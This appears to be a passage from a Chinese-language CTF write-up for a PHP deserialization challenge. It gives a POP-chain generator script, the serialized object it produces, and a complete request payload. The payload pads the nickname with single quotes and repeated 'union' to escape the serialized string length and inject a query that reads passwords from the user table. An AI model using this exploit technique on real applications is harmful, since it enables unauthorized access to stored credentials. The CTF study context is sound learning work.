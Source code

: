 ```
}
$d = new dbCtrl();
$i = new Info();
$i->CtrlCase=$d;
$u = new user();
$u->nickname=$i;
$U=new UpdateHelper();
$U->sql=$u;

echo serialize($U);

?>
```

之后作为 CtrlCase 的值传入

```
";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:45:"select password,id from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";N;s:6:"mysqli";N;s:5:"token";s:5:"admin";}}}}}
```

一共 443 字节

用 80 个单引号和三个 union 挤出这部分

完整payload

```
age=&nickname=''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''unionunionunion";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:45:"select password,id from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";N;s:6:"mysqli";N;s:5:"token";s:5:"admin";}}}}}
```